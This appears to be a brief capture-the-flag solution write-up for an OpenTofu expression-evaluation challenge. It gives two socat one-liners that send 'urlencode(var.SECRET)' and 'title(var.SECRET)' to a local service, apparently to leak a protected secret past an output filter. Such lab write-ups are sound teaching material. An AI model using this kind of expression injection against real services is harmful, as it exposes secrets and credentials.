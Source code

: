 # Solution

More than one payload can used to solve the task;
``` 
echo "urlencode(var.SECRET)" | socat - TCP:localhost:13337
echo "title(var.SECRET)" | socat - TCP:localhost:13337
```

**Note** that title() converts the first letter of each word in the given string to uppercase.
https://opentofu.org/docs/language/functions/title/